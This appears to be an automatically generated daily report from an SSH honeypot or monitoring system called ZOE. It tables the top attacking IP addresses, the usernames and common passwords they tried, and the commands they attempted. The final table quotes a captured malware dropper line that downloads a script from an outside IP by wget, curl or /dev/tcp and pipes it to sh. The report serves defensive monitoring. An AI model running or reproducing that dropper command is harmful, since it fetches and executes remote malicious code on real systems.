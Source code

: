 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 59.110.221.129 | 4629 |
| 39.100.33.130 | 4507 |
| 39.105.102.121 | 4365 |
| 47.238.249.246 | 4338 |
| 47.242.109.251 | 4338 |
| 47.243.11.108 | 4196 |
| 47.243.71.56 | 4185 |
| 8.217.10.15 | 2055 |
| 47.74.46.213 | 1198 |
| 47.237.132.148 | 994 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 2782 |
| admin | 19 |
| debian | 15 |
| test | 14 |
| ubuntu | 14 |
| deamon | 13 |
| oracle | 10 |
| postgres | 9 |
| user | 9 |
| zabbix | 9 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 318 |
| 111111 | 49 |
| Server123@ | 28 |
| password | 18 |
| kontol | 16 |
| 1Qaz@wsx | 15 |
| 1234 | 15 |
| test | 14 |
| deamon | 13 |
| debian | 9 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 47.251.100.22 | uname -s -m |
| 31.220.82.183 | uname -s -m |
| 31.57.241.17 | uname -s -m |
